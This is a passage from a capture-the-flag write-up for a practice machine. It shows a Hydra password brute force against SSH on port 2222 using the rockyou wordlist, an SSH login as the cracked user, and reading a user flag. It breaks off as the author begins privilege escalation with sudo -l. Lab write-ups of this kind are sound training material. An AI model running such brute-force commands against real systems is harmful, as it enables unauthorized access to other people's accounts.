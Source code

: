 I found Mitch, a possible username and the "system" user has a weak password.

I tried to brute force mitch's password on the ssh service that is running on port 2222. Here is the command I ran:

```bash
$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt target.thm ssh -s 2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-19 04:53:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://target.thm:2222/
[2222][ssh] host: target.thm   login: mitch   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-19 04:53:42
```

Hydra was able to get mitch's password from the rockyou.txt file.

I logged in as mitch using the password that hydra found using the following command:

```bash
$ ssh mitch@target.thm -p 2222
```

I have a shell. I'm in!

## What's the user flag?

In mitch's home directory there is a user.txt file. I cat it with the following command:

```bash
$ cat user.txt
REDACTED
```

## Is there any other user in the home directory? What's its name?

I run the following command to find out:

```bash
$ ls /home
mitch  sunbath
```

## What can you leverage to spawn a privileged shell?

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). Running sudo -l shows an interesting result:
